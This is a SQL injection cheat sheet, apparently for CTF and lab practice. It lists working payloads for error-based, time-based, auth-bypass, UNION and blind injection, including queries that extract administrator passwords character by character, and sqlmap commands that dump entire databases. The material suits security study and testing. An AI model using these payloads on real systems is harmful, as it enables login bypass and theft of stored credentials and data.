

Sql Injection
What is a SQL injection ?
According to PortSwigger, a SQL injection is :
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.
Detect SQLi
Source : https://github.com/payloadbox/sql-injection-payload-list
Payloads
Test if there is an error, bug :
'
"
;
' or "
-- or #
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
Time Based SQLi
Source : https://github.com/payloadbox/sql-injection-payload-list
If the host wait 5 seconds, there is SQLi.
1 or sleep(5)#
');waitfor delay '0:0:5'--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
Try to change some chars like ‘ , ; , —, …
Auth Bypass
Source : https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
You can bypass a login form with SQLi.
or 1=1
or 1=1--
admin' or '1'='1
admin' or '1'='1'--
admin" or "1"="1
admin" or "1"="1"--
admin") or "1"="1"#
UNION Attacks
Source : PortSwigger
To perform an UNION attack, you need to :
- Determine the number of columns
- Find column(s) with a useful data type (⚠️ Sometimes, return single column)
- Get database type and version
- List table(s) and column(s)
- Exploit
Number of columns
There are many methods. This are the most used.
- Use UNION SELECT :
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL#
' UNION SELECT NULL,NULL#
' UNION SELECT NULL,NULL,NULL#
If the number of nulls does not match the number of columns, the database returns an error.
- Use ORDER BY :
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
Incrementing the specified column index until an error occurs.
When there is an error, it means that you found the number of columns.
Example : If 'ORDER BY 3-- print an error → 2 columns.
💡 Don’t forget to urlencode your payload ! (CTRL+U with BurpSuite)
Useful data type
The most interesting data is in a string form, so we need to find it.
- Check if a table is compatible with string :
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.
⚠️ Retrieving multiple values within a single column :
' UNION SELECT username || '~' || password FROM users--
In some cases the query in the previous example may only return a single column.
Example :
If the first column does not return string :
' UNION SELECT NULL,username || '~' || password FROM users—
Database type and version
Queries to determine the database type and version :
| Oracle | SELECT version FROM v$instance |
|---|---|
| MySQL | SELECT @@version |
| PostgreSQL | SELECT version() |
| SQLite | sqlite_version() |
Source : PortSwigger
List tables and columns
This is the most important step because we need to know the name of tables and columns to perform an exploit.
List tables
We need to use information_schema.tables :
' UNION SELECT table_name,table_type FROM information_schema.tables--
Now, choose one of them to list columns.
List columns
We need to use information_schema.columns :
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_gbkncx'--
Source : PortSwigger
Exploit
Now, it’s really simple. Use information that you found to query the database.
Blind SQL Injection
Source : PortSwigger
-
What is a Blind SQLI ?
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
Password length
Before start to enum any password’s chars, it is important to know its lentgh.
TrackingId=vIwm93X71WwMfGey' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19) ='a'--
Start with 1 and increase until you get your response.
Password enum
Now that you know how long is the password, you can test each letters and numbers.
If you want to try manually, you can follow this steps :
Check if it is a letter :
TrackingId=vIwm93X71WwMfGey' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),5,1) > 'a'--
⚠️Don’t forget to try = 'a' !
💡 Try first with a, then g, p, w for example
Check if it is a number :
TrackingId=vIwm93X71WwMfGey' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),5,1) > '5'--
Repeat the steps until you get the password.
Oracle DB
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL Injection
List columns :
category=Pets' UNION SELECT column_name,'a' FROM all_tab_columns WHERE table_name='USERS_MNRKDW'--
SQLi with SQLMap
Installation
You can install with : sudo apt install sqlmap .
Or, you can copy the repository : https://github.com/sqlmapproject/sqlmap
If you use KaliLinux, the tool is already installed.
Usage
- Scan a url :
sqlmap -u 'http://127.0.0.1/website/shop?id=1'
- If SQLMap found a SQLi, you can enumerate DB, Tables and Columns :
To enum DB name :
sqlmap -u 'http://127.0.0.1/website/shop?id=1' --dbs
To enum table name :
sqlmap -u 'http://127.0.0.1/website/shop?id=1' -D db_name --tables
To enum column name :
sqlmap -u 'http://127.0.0.1/website/shop?id=1' -D db_name -T table_name --columns
- Now, if you want to dump data :
To dump table content :
sqlmap -u 'http://127.0.0.1/website/shop?id=1' -D db_name -T table_name --dump
To dump the full DB :
sqlmap -u 'http://127.0.0.1/website/shop?id=1' --dump-all
⚠️ Very long sometimes !
- Authenticated :
With cookies :
sqlmap -u 'http://127.0.0.1/website/shop?id=1' --cookies='COOKIES-SESSIONS' --dbs
With basic auth:
sqlmap -u 'http://127.0.0.1/website/shop?id=1' --auth-type Basic --auth-cred username:password --dbs
Usefull tips
BurpSuite tips
When you discover a new website, you probably use BurpSuite.
You can save a request and use it with SQLMap.

sqlmap -r request.req
Refreshing
In some CTFs, I needed to use the following switch --fresh-queries because SQLMap store a session file.
sqlmap -u 'http://127.0.0.1/website/shop?id=1' --fresh-queries -D db_name -T table_name --dump
Man page
All options are available with sqlmap -hh and on the man page : https://manpages.org/sqlmap